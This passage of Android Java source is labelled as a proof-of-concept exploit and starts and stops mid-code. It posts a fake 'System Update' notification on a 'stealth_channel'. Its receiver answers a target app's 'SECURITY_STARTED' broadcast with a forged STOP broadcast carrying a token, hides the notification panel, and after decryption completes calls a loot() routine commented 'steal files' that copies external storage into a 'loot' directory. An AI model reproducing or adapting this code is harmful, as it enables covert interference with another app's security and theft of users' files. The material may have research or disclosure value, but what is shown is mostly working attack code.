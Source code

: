 ```java
                        new android.app.NotificationChannel("stealth_channel",  
                                "System Updates", NotificationManager.IMPORTANCE_LOW);  
                NotificationManager nm = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);  
                nm.createNotificationChannel(channel);  
  
                android.app.Notification notif = new android.app.Notification.Builder(this, "stealth_channel")  
                        .setSmallIcon(android.R.drawable.ic_dialog_info)  
                        .setContentTitle("System Update")  
                        .setContentText("Checking for updates...")  
                        .setPriority(android.app.Notification.PRIORITY_LOW)  
                        .setOngoing(false)  
                        .setAutoCancel(true)  
                        .build();  
  
                nm.notify(999, notif);  
                Log.i("PoC", "dummy notification posted");  
            }  
        } catch (Exception e) {  
            Log.w("PoC", "dummy notification failed: " + e.getMessage());  
        }  
    }  
    // receivers  
    private void register() {  
        rx = new BroadcastReceiver() {  
            @Override  
            public void onReceive(Context c, Intent in) {  
                String a = in.getAction();  
                if (ACT_STARTED.equals(a)) {  
                    Log.i("PoC", "SECURITY_STARTED → sending STOP");  
                    hideNotificationPanel(); // hide  
  
                    Intent stop = new Intent(ACT_STOP)  
                            .setPackage(V_PKG)  
                            .putExtra(EXTRA_TOKEN, token);  
                    sendBroadcast(stop);  
                } else if (ACT_DONE.equals(a)) {  
                    Log.i("PoC", "DECRYPTION_COMPLETE, looting...");  
                    hideNotificationPanel(); // hide  
  
                    loot();  
                    cleanup();  
                }  
            }        };  
  
        IntentFilter f = new IntentFilter();  
        f.addAction(ACT_STARTED);  
        f.addAction(ACT_DONE);  
  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.TIRAMISU) {  
            registerReceiver(rx, f, Context.RECEIVER_EXPORTED);  
        } else {  
            registerReceiver(rx, f, Context.RECEIVER_EXPORTED);  
        }  
    }  
    // steal files  
    private void loot() {  
        File sd = Environment.getExternalStorageDirectory();  
        File base = getExternalFilesDir(null);  
        File lootDir = new File(base, "loot");  
        lootDir.mkdirs();  
  
```
